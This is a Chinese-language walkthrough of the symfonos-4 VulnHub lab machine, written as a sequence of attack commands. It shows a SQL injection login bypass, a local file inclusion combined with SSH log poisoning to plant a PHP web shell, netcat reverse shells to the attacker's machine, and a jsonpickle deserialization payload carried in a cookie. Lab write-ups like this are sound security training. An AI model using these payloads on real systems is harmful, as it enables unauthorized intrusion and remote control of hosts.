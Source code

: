 # symfonos-4

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：symfonos-4（IP：192.168.56.106）

下载：https://www.vulnhub.com/entry/symfonos-4,347/

## Let's go

```
nmap -A 192.168.56.106
```

![](./img/symfonos4-01.png)

> **网站并无信息，进行枚举**

![](./img/symfonos4-02.png)

![](./img/symfonos4-03.png)

```
username=admin' or '1'='1'#&password=123456
```

![](./img/symfonos4-04.png)

```
#发现文件包含
http://192.168.56.106/sea.php?file=../../../../var/log/auth
```

![](./img/symfonos4-05.png)

```
ssh '<?php system($_GET['cmd']); ?>'@192.168.56.106
http://192.168.56.106/sea.php?file=../../../../var/log/auth&cmd=nc -e /bin/bash 192.168.56.102 4444
nc -lp 4444
```

![](./img/symfonos4-06.png)

![](./img/symfonos4-07.png)

> **发现一个有意思的进程，让我们进行端口转发**

![](./img/symfonos4-08.png)

```
ssh -NfR 8000:127.0.0.1:8080 root@192.168.56.102
```

![](./img/symfonos4-09.png)

```
http://localhost:8000/whoami
```

![](./img/symfonos4-10.png)

> **让我们进行拦截，发现base64编码的cookie，我们进行解码**

![](./img/symfonos4-11.png)

![](./img/symfonos4-12.png)

> **发现是 jsonpickle 字符串，并且搜索发现可以使用下面方法利用**

```
{"py/object":"__main__.Shell","py/reduce":[{"py/function":"os.system"},["nc -e /bin/sh 192.168.56.102 5555"], 0, 0, 0]}
```

> **进行base64编码和替换cookie**

![](./img/symfonos4-14.png)

![](./img/symfonos4-15.png)

```
nc -lp 5555
```

![](./img/symfonos4-16.png)